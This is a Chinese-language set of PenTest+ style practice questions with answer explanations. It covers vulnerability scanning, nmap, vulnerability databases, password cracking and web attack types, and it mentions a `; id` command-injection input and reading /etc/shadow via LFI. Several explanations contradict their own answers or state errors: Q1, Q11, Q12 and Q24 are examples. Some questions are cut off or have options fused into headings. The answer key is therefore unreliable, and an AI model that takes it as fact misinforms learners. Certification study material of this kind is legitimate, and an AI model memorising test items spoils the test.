**A.** 无凭证扫描已知更容易产生误报。
**B.** 有凭证扫描在面对外部威胁者时更准确地代表真实情况。
**C.** 无凭证扫描往往会发现更多问题，因此有凭证扫描更容易报告。
**D.** 有凭证扫描通常更快。

**A** 是正确的。无凭证扫描已知在扫描时更容易产生误报。

**B**、**C** 和 **D** 都是错误的。**B** 是错误的，因为有凭证扫描在面对外部威胁者时更准确地代表真实情况。**C** 是错误的，因为有凭证扫描比无凭证扫描发现更多问题。**D** 是错误的，因为有凭证扫描通常更慢。

4. 美国标准与技术研究院 (NIST) 维护什么资源用于分析？

**A.** `Full Disclosure`
**B.** `National Vulnerability Database (NVD)`
**C.** `CWE`
**D.** `OWASP`

**B** 是正确的。`NIST` 维护漏洞数据库 `NVD`。

5. 下列哪个陈描述了 nmap 中的扫描？（选择两个）

**A.** 它是一项主动扫描技术。
**B.** 它扫描所有 65535 个端口。
**C.** 它执行简单的 ping 测试以判断主机是否在线。
**D.** 它识别在开放端口上运行的软件和版本。

**A** 和 **C** 是正确的。发现扫描是一项主动扫描技术，依靠执行 ping 测试来判断主机是否在线。

**B** 和 **D** 是错误的。**B** 和 **D** 是错误的，因为对 65535 个端口的扫描以及识别开放端口上运行的软件和版本是全扫描的一部分，而不是发现扫描。

6. nmap 中的隐身扫描通过 ____ 标志表示并在探测端口时利用 ____。

**A.** `-sT`, `TCP.Connect()` 调用
**B.** `-sT`, `SYN` 数据包
**C.** `-sU`, `RST` 数据包
**D.** `-sS`, `SYN` 和 `RST` 数据包

**D** 是正确的。nmap 中的隐身扫描通过 `-sS` 标志表示并在探测端口时利用 `SYN` 和 `RST` 数据包。如果服务器响应 `SYN/ACK` 数据包以继续 TCP 三次握手，nmap 会通过发送 `RST` 数据包丢弃连接；这通常可以防止扫描显示在服务器日志中。


### 7. 安全内容自动化协议（SCAP）的扫描器（例如 Tenable 的 Nessus）会测试来自互联网安全中心（CIS）的最佳实践安全配置基准的实现情况。这些基准对于哪种扫描最有帮助？

- **A.** 全量扫描 (Full scan)
- **B.** 发现扫描 (Discovery scan)
- **C.** 合规扫描 (Compliance scan)
- **D.** 隐蔽扫描 (Stealth scan)

 **C** 是正确的。由 `SCAP` 建立并嵌入 `Nessus` 等扫描器中的基准在合规扫描期间最有帮助。

 **A**、**B** 和 **D** 是错误的。**A** 和 **B** 错误是因为虽然 `Nessus` 可以配置为运行全系统扫描或主机发现扫描，但这些扫描类型对于普通渗透测试人员来说用途更广泛，且通常使用 `nmap` 等其他工具执行更容易完成。**D** 是错误的，因为隐蔽扫描是一种特定的 `nmap` 扫描，它只执行标准 TCP 三次握手的一部分，以防止建立完整连接（这通常会在应用程序或服务器日志中被检测）。虽然在许多渗透测试中很有帮助，但 `SCAP` 指南（由 `NIST` 管理）专门设计用于测试对监管框架的合规性。由于问题专门提到了涉及 `SCAP` 漏洞扫描器，这里的最佳答案是 C。

### 8. 数据采集与监控系统（SCADA）是一种监控哪种类型基础设施组件健康和状态的实时控制系统？

- **A.** 用于制造、发电、水处理和其他公共工程的工业控制系统 (ICS)
- **B.** 销售点系统 (Point-of-sale systems)
- **C.** 嵌入式系统，如 MP3 播放器、手机和阅读器
- **D.** 如指纹识别器和视网膜扫描仪等生物识别扫描器

 **A** 是正确的。数据采集与监控系统 (`SCADA`) 是一种实时控制系统，监控用于制造、发电、水处理和其他公共工程的工业控制系统 (`ICS`) 组件的健康状态。

 **B**、**C** 和 **D** 是错误的。所有提供的选项都是具有自身独特性的特种系统。销售点系统需要满足 `PCI` 合规指南，并且由于零售业务处理信息安全的方式，它们的更新是不规律的。嵌入式系统是计算机硬件和软件的硬连组合，为单一目的而设计和编程。由于其作为完全包含计算机环境的本质，升级嵌入式设备的单个物理组件通常困难或不可能。值得注意的是，虽然嵌入式系统可以作为 `SCADA` 架构的一部分，但 `SCADA` 系统不会监控*所有*嵌入式设备——它只会监控那些作为工业控制系统组件且其行为和数据需要 `SCADA` 系统用户访问的设备。生物识别扫描器需要满足 `HIPAA` 指南，因为生物数据是个人身份医疗信息，而且它们通常还是嵌入式设备。

### 9. 下列哪项不是非传统资产的示例？

- **A.** 实时操作系统 (RTOSs)
- **B.** SCADA 网络
- **C.** Linux 服务器
- **D.** IoT 设备

 **C** 是正确的。Linux 服务器是常见的计算机硬件，因此被认为是一种相当传统的信息系统资产。

 **A**、**B** 和 **D** 是错误的。这些都是非传统资产。实时操作系统（或 `RTOS`）主要要求遵守与其任务相关的截止日期。`SCADA` 网络由一个控制系统和各种用于制造、电力管理、水处理或其他公共工程的工业控制系统组成。`IoT` 设备是非传统资产，因为它们通常由不经常补丁或更新的嵌入式系统组成。

### 10. 下图所示的工具提供了 Web 和 Web 应用程序安全测试能力。它叫什么？

- **A.** Nikto
- **B.** W3AF
- **C.** Burp Suite
- **D.** OpenVAS



 **C** 是正确的。截图显示了 `Burp Suite Pro` 的主工具窗口。

 **A**、**B** 和 **D** 是错误的。**A** 很容易识别为错误的，因为 `Nikto` 仅是一个命令行工具。由于问题图像是图形界面，你可以判断 `Nikto` 是错误的。**B** 和 **D** 是工具，虽然它们以图形界面呈现，但看起来与 `Burp Suite Pro` 非常不同。你需要熟悉许多此类工具的界面——不仅是为了获得你的 `Pentester+` 认证，为了成为一名高效的渗透测试人员。

### 11. 在执行漏洞扫描时，以下哪项不是需要考虑的问题？

- **A.** 环境中已知的服务和协议
- **B.** 带宽
- **C.** 网络整体拓扑结构
- **D.** 开发人员或操作系统的公共声誉

 **D** 是正确的。软件或操作系统开发者的公共声誉是他们自己关心的问题；渗透测试人员的工作是测试和验证安全性。

 **A**、**B** 和 **C** 是错误的。这些都是渗透测试人员需要跟踪的问题。环境中使用的服务和协议可能会因为简单的扫描而崩溃，这会对生产环境是有利的。带宽限制可能是问题的，因为激进扫描可能会无意中导致真实用户的拒绝服务；网络拓扑结构也是同样的问题。

### 12. 为什么在渗透测试期间可能需要对目标系统的查询进行限流？

- **A.** 防止你的测试系统变慢
- **B.** 防止硬盘因数据量而填满
- **C.** 为了更准确地模拟真实世界的服务使用状况
- **D.** 避免通过运行拒绝服务攻击导致系统或服务崩溃，或避免因触发日志传感器或警报发现

 **D** 是正确的。对目标系统的查询进行限流确实会增加系统承受的负载。由于某些扫描器可能是激进的，让它们全速运行有时就足以导致系统崩溃，因为这种过载系统的方式与蓄意拒绝服务攻击的区别在于其目的并非恶意。此外，激进扫描可能会触发警告传感器或警报；如果是进行红队评估，这对你作为渗透测试人员的成功将不利，因为警觉的蓝队能够更容易地应对你的活动。

 **A**、**B** 和 **C** 是错误的。这些都不是渗透测试人员关注的问题。更重要的是，**C** 显然是错误的，因为真实服务使用在发出请求或查询方面不会像漏洞扫描那样详尽。


### 13. 除了在基于合规性的渗透测试中的价值外，以下哪项在使用 CIS 预配置操作基准扫描模板对环境测试的另一个益处？

- **A.** 减少渗透测试人员的工作量
- **B.** 简化扫描过程
- **C.** 辅助组织安全策略的开发
- **D.** 帮助组织进行资产分类并实施行业最佳实践

 **D** 是正确的。预配置的操作基准扫描模板允许组织更好地了解其技术足迹，从而简化了资产分类并赋能他们能够实施行业最佳实践。

 **A**、**B** 和 **C** 是错误的。`A` 和 `B` 是错误的，因为使用预配置的扫描模板仅用于突出与组织和环境相关的特定关注问题。渗透测试人员仍然需要审查结果，而且使用预定义模板进行扫描增加的复杂性几乎为零。`C` 是错误的，因为这些扫描模板旨在评估对 `HIPAA` 或 `PCI DSS` 等现有框架的合规性。换句话说，组织安全策略应该已经根据这些框架开发完成，而不是从零开始。

### 14. 在渗透测试期间，以下哪项不是漏洞扫描的益处？

- **A.** 帮助渗透测试人员根据最可能产生发现的结果对手动测试的攻击向量进行排序
- **B.** 在运行的系统之外对应用程序代码进行彻底审查以获取漏洞详情
- **C.** 通过自动化漏洞发现来协助渗透测试期间的时间管理
- **D.** 通过让渗透测试人员关注高优先级（即高风险）问题，提高渗透测试的整体质量和生成的报告质量

 **B** 是正确的。这是静态分析的益处示例，而不是漏洞扫描的益处。

 **A**、**C** 和 **D** 是错误的。这些都是渗透测试期间漏洞映射的益处示例，因此它们都是错误的。对可能的攻击向量进行优先级排序、时间管理以及渗透测试的整体质量都是漏洞映射的预期益处。

### 15. 正如下所示的输出所示，此开源命令行工具是一个 Web 服务器扫描器，用于测试危险文件或 CGI、过时的服务器软件以及其他问题。

- **A.** `OpenVAS`
- **B.** `Dirbuster`
- **C.** `Nikto`
- **D.** `Gobuster`

  **C** 是正确的。显示了使用 `Nikto` 进行扫描开始。

 **A**、**B** 和 **D** 是错误的。可以排除 `A`，因为 `OpenVAS` 是一个图形界面工具。由于问题图像是命令行界面，你可以很容易判断 `OpenVAS` 是错误的。`B` 和 `D` 用于帮助列出 Web 服务器上的目录和文件名的工具；`dirbuster`可以通过命令行或图形界面使用，而 `gobuster` 是专适用于命令行的简化且功能类似的工具。

### 16. 以下哪项不是漏洞扫描结果中常见的报告的主题或问题？

- **A.** 观察 (Observations)
- **B.** 漏洞利用 (Exploits)
- **C.** 漏洞 (Vulnerabilities)
- **D.** 未实施行业最佳实践

 **B** 是正确的。虽然漏洞扫描结果详细列出特定系统的漏洞很常见，但利用该漏洞的功能性漏洞利用程序（functional exploit）不会出现在漏洞扫描结果中。

 **A**、**C** 和 **D** 是错误的，因为所有这些都是漏洞扫描结果中常见的报告主题或问题。观察（Observations）可能包括软件版本号。漏洞（Vulnerabilities）可能是通过扫描结果发现的未实施行业最佳实践。

### 17. 以下哪项是漏洞扫描结果中典型的漏洞识别识别示例？

- **A.** 扫描期间显示的软件版本号。
- **B.** 系统 Web 应用未启用安全传输。
- **C.** 操作系统指纹显示运行 `Windows XP2`，表明易受 `MS08-067` 攻击。
- **D.** 启用了 `SSLv2` 和 `v3`。

 **C** 是正确的。操作系统指纹显示易受 `MS08-067` 攻击是漏洞扫描识别的漏洞示例。

 **A**、**B** 和 **D** 是错误的。`A` 是错误的，因为它是一个观察的示例。`B` 和 `D` 是错误的，因为它们是未实施最佳实践的示例。

### 18. 以下哪项是漏洞扫描结果中典型的未实施最佳实践示例？

- **A.** 系统 Web 应用未启用安全传输。
- **B.** 目标被识别为 `Apache` 服务器。
- **C.** 扫描期间显示的软件版本号。
- **D.** 操作系统指纹显示运行 `Windows XP2`，表明易受 `MS08-067` 攻击。

 **A** 是正确的。未启用安全传输是漏洞扫描可能识别的未实施最佳实践的示例。

 **B**、**C** 和 **D** 是错误的。`B` 和 `C` 是错误的，因为这些是漏洞扫描可能识别的观察示例。`D` 是错误的，因为它是一个渗透测试期间识别的特定漏洞示例。

### 19. 以下哪项是漏洞扫描结果中典型的观察结果示例？

- **A.** 操作系统指纹显示运行 `Windows XP2`，表明易受 `MS08-067` 攻击。
- **B.** Web 应用的 `robots.txt` 文件明确拒绝对 `/cgi-bin/` 目录的所有访问。
- **C.** 系统 Web 应用未启用安全传输。
- **D.** 发现启用了 `SSLv2` 和 `v3`。

 **B** 是正确的。Web 应用的 `robots.txt` 文件内容通常对恶意攻击者或渗透测试人员非常有价值，因此在许多漏洞扫描器中作为观察结果提供。


 `A`、`C` 和 `D` 是错误的。`A` 是错误的，因为它是在渗透测试期间识别出的特定漏洞示例。`C` 和 `D` 是错误的，因为它们是发现未应用于运行中系统中的行业最佳实践示例。

### 20 . 下列哪项是静态应用分析的示例？

**A.** 使用 `Nikto` 和 `dirbuster` 扫描运行中的 Web 应用程序以识别潜在缺陷

**B.** 分析活动运行实例之外的应用程序编写代码

**C.** 使用 `Burp` 爬取 Web 应用程序的用户

**D.** 使用垃圾输入对运行中的 Web 应用程序进行模糊测试（Fuzzing），以评估应用程序的反应

 `B` 是正确的。在不看到代码在实时系统中执行的情况下，分析编写的代码，是静态应用分析的经典示例。

 `A`、`C` 和 `D` 是错误的，因为列出的所有选项都是针对当前运行的系统或应用程序进行的评估。因此，它们都是动态应用分析的示例。

### 21 . 下列哪项是动态应用分析的示例？

**A.** 在活动运行实例之外的应用程序编写代码中搜索编程缺陷

**B.** 使用垃圾输入对运行中的 Web 应用程序进行模糊测试，以评估应用程序的反应

**C.** 在编写的代码中搜索恶意放置的后门

**D.** 分析应用程序代码并与编程中的已知最佳实践（如查询参数化）进行比较

 `B` 是正确的。使用垃圾输入对运行中的 Web 应用程序进行模糊测试以寻找 `DoS` 或缓冲区溢出机会，是动态应用分析的经典示例。

 `A`、`C` 和 `D` 是错误的，因为列出的所有选项都是针对未活动运行的代码进行的评估。因此，它们都是静态应用分析的示例。

### 22 . 下列哪项不是 CVE 编号机构（CNA）维护的 `CVEs` 细节？

**A.** `PoC` 漏洞利用代码

**B.** `CVE ID`

**C.** 漏洞的简要描述

**D.** 外部引用或告告

 `A` 是正确的。`PoC` 漏洞利用代码不是 CVE 编号机构维护的 `CVEs` 细节。但注意，此类代码可以在作为特定 `CVE` 细节维护的外部引用或告告中找到。

 `B`、`C` 和 `D` 是错误的，因为这三项内容都是 CVE 编号机构维护的 `CVEs` 的关键细节。

### 23 . 下列哪项不是 `CWE` 维护的安全弱点类别？

**A.** 编程概念

**B.** 开发概念

**C.** 研究概念

**D.** 架构概念

 `A` 是正确的。编程概念不是 `CWE` 维护的安全弱点类别。面对此类问题时要小心；与编程相关的弱点可能会被归类为开发概念。记住，`CWE` 监控的类别范围很大。

 `B`、`C` 和 `D` 是错误的。开发概念、研究概念和架构概念都是 `CWE` 维护的安全弱点类别，因此它们是此题的错误答案。

### 24 . 下列哪项是 `CWE` 条目提供的标识符？

**A.** 弱点 ID

**B.** 引入模式

**C.** 利用可能性

**D.** 答案 A、B, 和 C

 `D` 是正确的。列出的所有特定项目（弱点 ID、引入模式和利用可能性）都是为每个 `CWE` 条目提供的标识符。因此，答案 `C`（显式包含所有三个命名的答案）是正确选择。

 `A`、`B` 和 `C` 是错误的。对于那些将“以上所有”或“答案 A、B, 和 C”作为选项的问题，要小心。如果你很难选择单个选项，那么“以上所有”这类答案是正确的几率非常大。

### 25 . 下面显示的示例屏幕是 ___________ 的扫描结果，这是一种远程漏洞扫描工具，可以帮助自动化大部分渗透测试过程。该工具支持有凭据扫描和无凭据扫描，并且是市场上最受欢迎的商业扫描器之一。

**A.** `Nikto`

**B.** `OpenVAS`

**C.** `Burp Suite`

**D.** `Nessus`



 `D` 是正确的。截图显示了 Tenable 的 `Nessus` 扫描器的典型报告。

 `A`、`B` 和 `C` 是错误的。`A` 很容易被识别为错误的，因为 `Nikto` 仅是一个命令行工具。由于问题图像是图形界面，你可以判断 `Nikto` 是错误的。`B` 和 `C` 虽然也是图形界面呈现的工具，但看起来与 `Nessus` 非常不同。为了认证考试，你将需要熟悉许多工具的界面！

### 26 . `CAPEC` 详细介绍了数千种已知的攻击模式和方法。下列哪项不是 `CAPEC` 认可的攻击领域？

**A.** 社会工程

**B.** 供应链

**C.** 物理安全

**D.** 固件

 `D` 是正确的。根据 `CAPEC`，固件攻击并不是一个特定的攻击领域，因此它是正确答案。现实固件攻击可能会被归类为供应链或硬件漏洞。

 `A`、`B` 和 `C` 是错误的。社会工程、供应链攻击和物理安全都是 `CAPEC` 独立认可的攻击领域，因此它们是此题的错误答案。

### 27 . 在渗透测试期间，你识别并获取了 Web 应用程序数据库中的加密密码。你没有针对该加密方法的彩虹表，且字典攻击也没有成功。作为攻击者，你可以利用哪种剩余攻击方法（通常是最后的手段）来尝试解密获取的密码？

**A.** 策略性猜测

**B.** 暴力破解

**C.** `XSS`

**D.** `CSRF`

 `B` 是正确的。暴力破解是密码破解或恢复的有效方法，但由于与字典攻击或彩虹表相比通常不可靠，因此被认为是最后的手段。

 `A`、`C` 和 `D` 是错误的。`A` 是错误的，因为暴力破解尝试完全没有策略可言。使用原始计算能力可能是有效的，但字典攻击的成功率通常高得多。`C` 和 `D` 是错误的，因为跨站脚本 (`XSS`) 和跨站请求伪造 (`CSRF`) 是针对网站和 Web 应用程序的特定漏洞，因此在密码破解的上下文中并不适用。

### 28 . 哪种密码破解方法利用随着发现的真实密码进行扩展的词表？

**A.** 字典攻击

**B.** 暴力破解


### C. 致电账户所有者并冒充 IT 部门成员以诱其泄露密码

### D. 彩虹表

 **A** 是正确的。字典攻击使用现有的词列表，每当发现现实世界中的密码时，词列表就会被扩展。

 **B**、**C** 和 **D** 是错误的。**B** 是错误的，因为暴力破解攻击利用原始计算能力，通过尝试给定字符集中所有可能的字符组合来尝试破解密码。**C** 是错误的，因为它描述的是一种通用的社会工程学尝试。**D** 是错误的，因为彩虹表是针对特定算法的预先的密码哈希值集合。

### 29. 哪种密码破解方法需要巨大的存储容量，有时总容量超过 300 GB？

**A.** 暴力破解
**B.** 词列表攻击
**C.** 彩虹表
**D.** 字典攻击

 **C** 是正确的。彩虹表非常有效，但对于特定算法，包含海量的数据表。看到总计约为 300 GB 的彩虹表并非罕见。

 **A**、**B** 和 **D** 是错误的。**A** 是错误的，因为暴力破解是破解或恢复密码的有效手段，但由于其通常效率低下，通常被认为是最后的手段。**B** 和 **D** 是错误的，因为词列表攻击只是字典攻击的另一个名称——而字典攻击不需要如此巨大的存储空间。

### 30. Nessus 在生成漏洞严重性信息时结合了 NVD 的 CVSS。对于渗透测试人员来说，以下哪项*不是*该信息的用处？

**A.** 将漏洞映射到潜在的利用程序
**B.** 告知渗透测试人员的攻击计划
**C.** 识别适用于目标上使用的软件版本的潜在利用程序
**D.** 为新闻稿填充图表中的数据

 **D** 是正确的。虽然 Nessus、OpenVAS 和其他扫描器提供了大量有助于推动业务决策的有用信息，但此类决策仅是客户的职责范围。

 **A**、**B** 和 **C** 是错误的，因为这些都是渗透测试人员使用 Nessus 输出的有效方式。

### 31. 在渗透测试期间，你发现 Web 应用程序存在活跃的本地文件包含（LFI）漏洞，允许你查看目标系统上的任何文件，包括 `/etc/passwd` 和 `/etc/shadow` 文件。利用这些信息，你将 shadow 文件中的密码哈希输入到 `hashcat` 并使用字典攻击对其进行破解，最终找到了匹配项，从而允许你在目标系统上获得一个低权限 shell。这是哪种情况的示例？

**A.** 漏洞链利用（Exploit chaining）
**B.** 利用程序修改
**C.** 社会工程学
**D.** 未能遵循行业最佳实践

 **A** 是正确的。这是漏洞链利用的示例；在给出的示例中，本地文件包含漏洞提供了弱密码哈希的访问权限，然后对其进行破解以揭示有效的登录凭据。

 **B**、**C** 和 **D** 是错误的。**B** 是错误的，因为利用程序修改意味着对利用代码或执行利用程序的条件进行了某些更改。**C** 是错误的，因为社会工程学表示已与他人取得联系以索取信息，通常以消除目标任何怀疑的方式进行。**D** 是错误的，虽然未能遵循最佳实践*可能*导致此漏洞（通过未正确更新、补补或配置 Web 应用程序），但所涉及的漏洞可能是开发人员未知的。在这种情况下，不存在补丁，因此遵循最佳实践无法阻止对该漏洞的利用。

### 32. 在 Web 应用程序渗透测试期间，你确定用户会话 ID（或令牌）被泄露。你发现这些会话 ID 是可预测的，而不是随机生成的。这意味着该应用程序最容易受到哪种攻击类型？

**A.** SQL 注入
**B.** 远程文件包含
**C.** 跨站脚本
**D.** 会话劫持

 **D** 是正确的。由于会话 ID 是可预测的，该应用程序最容易受到会话劫持。

 **A**、**B** 和 **C** 是错误的。**A** 是错误的，因为这里没有提到 SQL 数据库。**B** 是错误的，因为没有提到文件包含。**C** 是错误的，因为没有提到恶意代码。

### 33. 下列哪项与使用默认凭据相关的危险？

**A.** 管理员密码可能被猜中。
**B.** 管理员密码几乎出现在任何主要的词列表中。
**C.** 管理员密码可以通过简短的网络搜索找到。
**D.** 以上所有

 **D** 是正确的。列出的所有项都是默认凭据的担忧，因此 D 是正确的答案。

 **A**、**B** 和 **C** 是错误的。容易被猜中、存在于现有字典攻击词列表中或通过搜索找到的密码对系统安全都是威胁。

### 34. 下列哪项*不是*弱身份凭据的潜在特征？

**A.** 密码是字典单词。
**B.** 密码超过 50 个字符且包含大型字符集。
**C.** 密码长度少于八个字符。
**D.** 密码与用户名相同。

 **B** 是正确的。超过 50 个字符且包含大型字符集的密码通过任何手段破解都将极其困难——没有衡量标准可以将这种密码认为是弱的。

 **A**、**C** 和 **D** 是错误的。字典单词、与用户名相同或长度少于八个字符的密码通常可以通过字典攻击、彩虹表或暴力破解轻松破解。因此，它们都是弱身份凭据的示例。

### 35. 下所示所示工具是一个免费开源的密码破解器，适用于许多 *nix 和 Windows 版本，并利用系统 CPU。此示例输出显示了使用词列表破解哈希列表的结果。

**A.** John the Ripper
**B.** Hashcat
**C.** Cewl
**D.** Medusa



 **A** 是正确的。截图显示了 John the Ripper 使用词列表破解哈希时的典型输出。


**B**、**C** 和 **D** 是错误的。**B** 是错误的，因为 `Hashcat` 在其输出中提供了更详尽细节，并且通常被用于利用 GPU 而非系统 CPU；这会在 `Hashcat` 的初始输出中被注释出来。**C** 是错误的，因为 `Cewl` 是一个自定义的字典列表生成器，它可以爬取目标网站，识别网站上使用的唯一单词，并将它们保存到文本文件中供用户使用。该文本文件可以用于帮助 `JTR` 或 `Hashcat` 破解密码哈希值。**D** 是错误的，因为 `Medusa` 是一个并行的、模块化的登录暴力破解工具，可用于攻击多个服务和协议。`Medusa` 的典型输出将显示对登录进行每次单独实时暴力破解尝试的结果。

### 36 . 哪种类型的 Web 应用测试通过向 页面参数中输入任意值来引发意料之外的响应？

- **A.** 错误代码分析
- **B.** 跨站脚本
- **C.** HTTP 参数污染
- **D.** 跨站请求伪造

**C** 是正确的。在将 HTTP 参数发送到 Web 服务器时对其进行修改——或污染，用于尝试触发意料之外的行为，这可能会泄露其他漏洞或信息泄露。

**A**、**B** 和 **D** 是错误的。**A** 是错误的，虽然可以对 HTTP 参数污染测试的输出进行错误代码分析，但其本身并不是试图从系统调用意料之外的响应。**B** 是错误的，因为没有提到在相关网站上注入恶意代码。**D** 是错误的，因为提出的问题未能描述 `CSRF`；没有提到欺骗一个经过身份验证的有效用户发送恶意请求。

### 37 . 下哪项*不是* 服务器、Web 应用和数据库中缺乏错误处理或错误处理过度冗余（verbose）的潜在后果？

- **A.** 操作系统或软件版本泄露
- **B.** 泄露应用程序或数据库的用户名上下文
- **C.** 点击劫持
- **D.** 泄露应用程序或数据库的目录信息

**C** 是正确的。不当的错误处理广义上是一种信息泄露漏洞；泄露的数据类型取决于相关的开发者和编程语言，但 `clickjacking`（点击劫持）不是错误处理不当的潜在后果。

**A**、**B 和 D 是错误的。所有这些选项都是某种形式的信息泄露；因此，它们在错误处理不当时通常是预期的。在该题的语境下，这使得这些答案是错误的。

### 38 . 在 Web 应用的文本字段中，你发现通过输入分号和 *nix 命令 `id``*，你可以找到服务器上应用程序的用户名上下文。这说明了什么例子？

- **A.** 暴力破解
- **B.** 命令注入
- **C.** 会话劫持
- **D.** 重放攻击

**B** 是正确的。使用分号和另一个操作系统级命令表明，相关应用程序将用户的原始输入馈到本地服务器操作系统的命令中。因此，这是一个明确的命令注入示例。

**A**、**C 和 D 是错误的。暴力破解是错误的，因为它是一种用于密码破解和恢复的技术，而不是一种攻击类型。会话劫持和重放攻击也是错误的，因为它们不属于此类注入。

### 39 . 哪项是用于开发攻击计划的查找目标系统或服务的各种可用信息的过程？

- **A.** 漏洞映射
- **B.** 漏洞扫描
- **C.** 枚举
- **D.** 指纹识别

**C** 是正确的。枚举是用于查找目标系统或服务的各种可用信息的过程的过程。

**A**、**B 和 D 是错误的。**A** 是错误的，因为漏洞映射是识别已知安全漏洞的过程。**B** 是错误的，因为漏洞扫描是检查系统是否存在已知安全漏洞的过程。**D** 是错误的，因为指纹识别是确定运行服务的名称和版本的过程。

### 40 . 哪个术语描述识别已知安全漏洞及其位置的过程？

- **A.** 漏洞映射
- **B.** 跨编译
- **C.** 交叉构建
- **D.** 漏洞修改

**A** 是正确的。漏洞映射是识别已知安全漏洞及其位置的过程，无论它们是物理的还是逻辑的。

**B**、**C 和 D 是错误的。**B** 是错误的，因为跨编译是在另一个不同的操作系统或平台上为一个操作系统或平台创建可执行文件。这通常使用特殊编译器完成，例如使用 MinGW-w64 在 Kali 上编译 Windows `.exe` 文件。**C** 是错误的，因为“交叉构建”是一个计算机科学语境下没有实际意义的术语，但听起来很像可能会误导考生；考试中要警惕此类答案。**D** 是错误的，因为漏洞修改是调整已知的公开漏洞以使其在特定的渗透测试中更可用或更具针对性。

### 41 . 哪种行为描述了编写首个漏洞以演示或武器化漏洞？

- **A.** 漏洞修改
- **B.** 跨编译
- **C.** 概念验证开发
- **D.** 威胁狩猎

**C** 是正确的。概念验证开发是编写首个漏洞以演示或武器化漏洞的过程。

**A**、**B 和 D 是错误的。**A** 是错误的，因为漏洞修改是调整已知的公开漏洞以使其在特定的渗透测试中更可用或更具针对性。**B** 是错误的，因为跨编译是在另一个不同的操作系统或平台上为一个操作系统或平台创建可执行文件。**D** 是错误的，因为威胁狩猎是安全团队识别并封锁能够规避系统、网络或环境环境中现有安全措施的活跃威胁攻击者的过程。


### **C.** 可以更快地制定出成功率更高的攻击计划。

### **D.** 以上均不是；所有提供的选项都是渗透测试准备和执行期间对活动优先级排序的结果。

**D** 是正确的。

**A** , **B** , 和 **C** 是错误的，因为列出的所有选项都是在渗透测试准备期间通过对活动进行适当的优先级排序所带来的积极影响。

### **43 .** 下图所示的工具是一种适用于 Linux、Windows 和 macOS 的免费开源密码破解器，它可以利用系统 CPU 或 GPU。此示例输出显示了使用字典列表破解哈希值列表（hashes list）的结果。

**A.** Hashcat

**B.** John the Ripper

**C.** Cain and Abel

**D.** Hydra

